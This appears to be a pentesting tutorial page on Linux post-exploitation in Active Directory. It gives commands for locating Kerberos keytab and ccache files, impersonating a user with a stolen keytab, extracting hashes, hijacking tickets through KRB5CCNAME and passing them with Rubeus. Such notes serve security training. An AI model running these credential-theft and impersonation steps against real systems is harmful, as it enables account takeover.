 ```yaml
---
description: >-
  The only difference from Post-Exploitation in #Pentesting is that here we
  would use only AD-related  PE vectors which is executed in Linux OS.
---
```


# Linux Post-Exploitation

**Linux** computers can connect to **Active Directory**, though it's a **Microsoft** technology. Also it's not required for **Linux** machine to be connected to **AD** to use **Kerberos** tickets.

***

## Checking Linux and AD relations

### realm

```bash
realm list
```

### PS

<pre class="language-bash"><code class="lang-bash"><strong>ps -ef | grep -i "winbind\|sssd"
</strong></code></pre>

***

## Finding Kerberos Tickets

Finding tickets is very important part of Active Directory exploitation and post-exploitation. For a beginning, tickets in Linux are usually located here:

* **keytab files** - commonly allow scripts to authenticate automatically using Kerberos without human interaction or access to a password stored in a plain text file
* **ccache files** - **c**redential **c**ache is stored in <mark style="color:green;">**/tmp**</mark> directory&#x20;
* <mark style="color:green;">**`KRB5CCNAME`**</mark> - environment variable

### Crontab

```bash
crontab -l
```

### Keytab Files

```bash
find / -name *keytab* -ls 2>/dev/null
```

### Ccache

```bash
env | grep -i krb5
ls -la /tmp
```

***

## Abusing Keytab

### Impersonate user

```bash
klist -k -t #list keytab file info
kinit carni7@AMOGUS.KEK -k -t /opt/kerbusers/carni7.keytab #impersonation carni7 using his keytab
```

### **KeyTabExtract**

[**\[LINK\]**](https://github.com/sosdave/KeyTabExtract) This is tool which is extracting **Kerberos** hashes from **keytab** file.

```python
python3 /opt/keytabextract.py /opt/specialfiles/carni7.keytab 
```

## Abusing ccache

For using **ccache** files you need to have root privileges

### Checking group privileges

```bash
id carni7@amogus.kek
```

Now after locating right non-expired **Kerberos** ticket, we could import **ccache** file into our session by changing value of <mark style="color:green;">**`KRB5CCNAME`**</mark> env and checking tickets with <mark style="color:red;">**klist.**</mark>

```bash
cp /tmp/krb5cc_768304578_BRB541 .
export KRB5CCNAME=/root/krb5cc_768304578_BRB541
klist
Ticket cache: FILE:/root/krb5cc_768304578_BRB541
```

If the result is the same, we could be sure that now **Kerberos** is using our ticket.

## Ticket Converter

```bash
impacket-ticketConverter krb5cc_768304578_BRB541 carni7.kirbi
```

#### Importing Kerberos Ticket

```powershell
C:\Rubeus.exe ptt /ticket:c:\carni7.kirbi
```
